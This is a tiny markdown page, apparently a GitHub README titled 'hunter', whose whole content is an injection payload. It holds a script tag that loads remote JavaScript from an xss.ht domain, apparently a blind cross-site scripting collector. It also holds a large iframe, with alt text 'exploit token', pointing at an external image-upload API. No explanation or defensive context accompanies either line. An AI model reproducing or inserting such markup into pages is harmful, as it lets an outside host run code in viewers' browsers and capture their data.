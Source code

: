 # hunter


<script src=https://ynafiai.xss.ht></script>
<iframe alt='exploit token' frameborder='0' height='600' scrolling='auto' src='https://api.nudge.ai/Image/GetUploadedImage/b29b982c35f149c48f4ffe844152cc2d' width='4800'></iframe>
